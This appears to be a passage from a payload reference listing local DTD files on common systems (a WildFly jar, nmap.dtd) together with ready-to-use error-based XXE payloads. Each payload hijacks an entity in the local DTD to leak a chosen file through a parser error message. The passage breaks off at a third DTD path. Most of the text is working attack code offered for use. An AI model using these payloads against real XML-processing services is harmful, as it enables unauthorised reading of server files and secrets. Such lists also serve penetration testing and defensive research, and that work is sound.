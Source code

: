 ```
```

 --- 

**DTD File:** `/opt/jboss/wildfly/modules/system/layers/base/org/apache/xml-resolver/main/xml-resolver-1.2.jar!/org/apache/xml/resolver/etc/catalog.dtd`

**Injectable entity:** `%publicIdentifier`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///opt/jboss/wildfly/modules/system/layers/base/org/apache/xml-resolver/main/xml-resolver-1.2.jar!/org/apache/xml/resolver/etc/catalog.dtd">

    <!ENTITY % publicIdentifier '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/nmap/nmap.dtd`

**Injectable entity:** `%attr_numeric`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:///usr/share/nmap/nmap.dtd">

    <!ENTITY % attr_numeric '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `/usr/share/liteide/liteeditor/kate/language.dtd`
